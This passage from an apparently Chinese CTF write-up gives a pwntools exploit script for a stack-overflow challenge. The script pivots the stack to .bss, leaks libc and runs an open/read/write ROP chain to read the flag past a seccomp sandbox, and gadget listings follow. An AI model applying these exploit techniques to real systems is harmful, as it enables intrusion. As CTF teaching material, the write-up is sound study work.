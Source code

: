 ```python
vuln=0x401279
 
payload1=b'a'*(0x200-0x8)+b'flag\x00\x00\x00\x00'+p64(bss_tar+0x100)+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(write_addr)+p64(0x4012a3)
p.sendlineafter('everywhere',payload1)
 
migr_pay=b'a'*0x8+p64(bss_tar)+p64(leave)
p.sendafter('voice :',migr_pay)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['read']
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pause()
payload2=p64(bss_st+0x100)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open64_addr)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
payload2+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)+p64(vuln)
p.sendline(payload2)
 
migr_pay=b'a'*0x8+p64(bss_st)+p64(leave)
p.sendafter('voice :',migr_pay)
 
p.interactive()
 
# 0x000000000040136c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401370 : pop r14 ; pop r15 ; ret
# 0x0000000000401372 : pop r15 ; ret
# 0x000000000040136b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040136f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401373 : pop rdi ; ret
# 0x0000000000401371 : pop rsi ; pop r15 ; ret
# 0x000000000040136d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040121a : ret 0xfffe
 
# in libc
# 0x0000000000142c92 : pop rdx ; ret
# 0x000000000002601f : pop rsi ; ret
```
### call me sys
syscall，但是只能用几个函数
又是沙箱：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2dis1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2seccomp.png)
还是栈溢出漏洞：
![](https://zcoi.github.io/blogs/CTF/monthgame2310/2dis2.png)
由于没有关掉open,write,read函数，所以这题思路和上题一样。（题目说有三种方法，日后钻研）
```python
from pwn import*
 
context(arch='amd64',os='linux')
context.log_level='debug'
```